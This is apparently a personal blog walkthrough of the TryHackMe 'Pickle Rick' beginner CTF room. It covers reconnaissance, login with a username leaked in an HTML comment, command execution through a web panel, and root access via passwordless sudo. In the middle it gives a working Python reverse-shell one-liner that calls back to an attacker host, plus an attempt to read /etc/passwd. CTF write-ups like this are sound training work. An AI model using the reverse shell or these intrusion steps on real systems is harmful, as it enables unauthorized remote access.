 ```yaml
---
title: "Try Hack Me - Pickle Rick Walkthrough"
date: 2022-07-24 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, beginner]
---
```

![Rick being cool.](https://imgur.com/BkKtAkO.png)


This is an old room on Try Hack Me. At the time I am writing this walkthrough it has been released for almost 4 years!
This room is also a CTF (Capture the Flag) room which means that it is not a "Real World" experience. Instead it is meant to help us practice our skills.

# Scanning the Host
First we will scan the host. I like to use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

I create a new folder for the room and then a command that looks like:
```bash
sudo python3 /tool_repos/AutoRecon/autorecon.py <xx.xx.xx.xx> --dirbuster.threads=100 -o /path/to/box_folder && sudo chown -R <user>:<user> /path/to/box_folder
```
Ok let me explain that command:
- `sudo python3` - I use `sudo` because some of the tools autorecon uses need to be run as `root`. The problem with this is any files created are owned by `root`. (We will fix this in a second.)
- `/tool_repos/AutoRecon/autorecon.py` - I always create a directory on my kali boxes to store all the tools I `git clone` from github. (Even better if you have NFS storage your home lab, use that to mount the folder with all the tools you like. Then whenever you need to rebuild your kali box you mount the folder and all your tools are ready to go.)
- `<xx.xx.xx.xx>` - This is just a placeholder for the IP of the box you are scanning.
- `--dirbuster.threads=100` - How many dirbuster threads you want to allocate. This is an important setting. A higher number of threads helps the scan get done faster.
- `-o /path/to/box_folder` - This is the output path for the results of the scans.
- `&& sudo chown -R <user>:<user> /path/to/box_folder` - This is some magic I add to the end of the scan.
    - The `&&` just means run the next command if the previous command was successful
    - Because we used `sudo` all the files created are owned by root. So we use `sudo` here to change ownership back to us.
    - We use a recursive `chown` to set the owenership of the files back to our 'regular' user.
    - Just replace both `<user>` spots with the name of your user.

# Scan Results
After running `autorecon` we see that there are only 2 ports open:
- tcp 22 (SSH)
- tcp 80 (HTTP)

Lets's take a look at port 80.
It's important to remember that autorecon with run a ton of `NMAP` scripts against the ports it finds before we jump into a web browser and look at the page let's examine what it found.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-chrono: Request times for /; avg: 578.44ms; min: 566.60ms; max: 605.38ms
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
```
First we see that there is a `robots.txt` file these can contain some good information. Let's check it out.
- You can learn more about `robots.txt` files [HERE](https://moz.com/learn/seo/robotstxt)
- The only thing we find is: `Wubbalubbadubdub`
- `NMAP` is also telling us it found `login.php`, we will have to remember to come back to that.

NOTE: I have learned with CTFs to always note strange discoveries like this, they are usually not there by accident.

Here is the next interesting finding in from the `NMAP` scan:
```
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.210.147
|
|     Path: http://10.10.210.147:80/
|     Line number: 28
|     Comment:
|         <!--
|
|             Note to self, remember username!
|
|             Username: R1ckRul3s
|
|           -->
```
We should always check to HTML comments in the page source, but `NMAP` will do it for us! (To my shame, it took me a while to realize that `autorecon` was running this `NMAP` script against HTTP ports.)

So now we have a username too: `R1ckRul3s`

# Login Page
Time to check out the discovered login page.
![](/assets/images/pr_login.jpg?raw=true)

We have a username and what could be a password, let's try it!

![](/assets/images/command_panel.jpg?raw=true)

It worked! Now I really want to play with that `Command Panel`, but let's take some time to look at the tabs on the page.

All the tabs say that only the "REAL" Rick can view the pages. This may mean that are only logged in as a low level user and need a different login to view the other pages.

Ok time to play with `Command Panel`, and it looks like we have direct code execution on the box.

![](/assets/images/rce.jpg?raw=true)

But not for everything, when we try: `cat /etc/passwd` we get:

![](/assets/images/no_rce.jpg?raw=true)

If we run `pwd` we see that we are in `/var/www/html` and if we run `ls -lah` we see some files we did know about, `index.html` and `login.php` and some we didn't. Let see if we can navigate directly to these new files.

![](/assets/images/file_list.jpg?raw=true)

And we find the answer for "the first ingredient" in the file: `Sup3rS3cretPickl3Ingred.txt`

![](/assets/images/flag1.jpg?raw=true)

`clue.txt` tells us that we need to look around the filesystem some more.

We always want to know what users are on a system so let's `ls -lah /home`

![](/assets/images/pr_home.jpg?raw=true)

We see 2 users, `ubuntu` and `rick` and rick's permissions are wide open so let's explore his home directory.
But after I looked around for a while longer I didn't find much. I think it's time to pop a shell on this box.
First let's see if we can use python3:

![](/assets/images/python_v.jpg?raw=true)

Now that we know that python3 executes we can try to pop a shell!
Let's try this one. DON'T FORGET TO CHAGNE YOUR HOST IP AND PORT in the command! :)  

By the way, I tried few different reverse shells. The one below may not always work, but it did here. Many times you will have to experiment to discover with will work on a given box.  

```bash
export RHOST="xx.xx.xx.xx";export RPORT=xxxx;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
And once we get our shell, let's 'upgrade' it:

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Now we can go get the answer to the 2nd question! 

![](/assets/images/flag2.jpg?raw=true)

So now we have a "foothold" on the box, it's time to do some privesc (priviledge escalation)

I like to use [LSE](https://github.com/diego-treitos/linux-smart-enumeration) (Linux Smart Enumeration) tool when enumerating a system for possible privesc points.

BUT, before we do all that we should just check to see if our user has `sudo` privleges. Which in the real world the `www-data` user should never have! 
So we try `sudo -l` which should tell us what privleges the user has. 

![](/assets/images/pr_root.jpg)

Wow, we can run ALL commands as `root` with no password!! 

Looks like Rick likes to live dangerously!

You can either use `sudo` in front of all your commands or just switch to  `root` with `sudo su`

Now you can get the answer to the third question in the `/root` directory! 




